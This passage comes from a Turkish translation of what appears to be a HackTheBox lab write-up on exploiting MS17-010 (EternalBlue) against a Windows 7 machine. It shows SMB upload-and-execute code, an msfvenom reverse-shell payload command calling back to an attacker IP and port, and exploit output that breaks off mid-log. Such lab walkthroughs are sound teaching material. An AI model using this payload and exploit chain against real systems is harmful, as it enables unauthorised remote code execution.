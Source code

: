 	filename = "%s.exe" % random_generator(6)
	print "Sending file %s..." % filename


    #In some cases you should change remote file location
    #For example:
    #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
	#service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
	
	smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
	service_exec(conn, r'cmd /c c:\%s' % filename)
```

Orijinalinde olana çok benziyor, ancak lfile'ı C:\filename'ye yüklemek ve sonra çalıştırmak için güncellendi.

zzz_exploit.py dosyasını değiştirebilir, send_and_execute.py dosyasını kullanabilir ya da bu depodaki fonksiyonları kullanarak kendi scriptinizi oluşturabilirsiniz.


#### Cred Update

Tıpkı yukarıdaki smbmap'te olduğu gibi, bunu kullanıcı adı boş bir string olarak çalıştırmayı denediğimde, auth yapmıyor. Ancak, kullanıcı adına herhangi bir string eklersem, o zaman çalışacaktır.

OSCP ile uğraşırken (2.5 yıl önce), bu script'e boş cred ile düşen birçok kutu vardı. Sanırım smbmap ile gördüğünüze benzer şekilde hareket etmelidir. Ancak tıpkı orada olduğu gibi, emin değilseniz hem kötü cred'lerle hem de kötü cred'ler olmadan denemek her zaman daha iyidir (ve elbette iyi cred'leriniz varsa, bunları kullanın!).


#### Shell

msfvenom ile bir payload oluşturacağım:

```
oxdf@parrot$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev.exe
```

Günümüzde Windows sistemleri için x64 nispeten evrensel olsa da, bu kutunun piyasaya sürüldüğü 2017 yılında x86, özellikle Windows 7'de çok daha yaygındı .

shell_reverse_tcp raw komut shell'idir (meterpreter olmayan) ve staged değildir (yani geri bağlanıp geri kalanını alacak bir stub yerine tüm payload tek bir exe'dedir). Bunların her ikisinde de nc ile shell'i yakalayabilirim. Eğer staged bir payload isteseydim, shell/reverse_tcp yapardım.

Kullanıcı adı “0xdf” olarak güncellendiğinde, nc'yi başlatacağım ve send_and_execute.py dosyasını çalıştıracağım:

```
(impacket-venv) oxdf@parrot$ python send_and_execute.py 10.10.10.40 rev.exe 
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001c3d8f0
SESSION: 0xfffff8a0019ee2a0
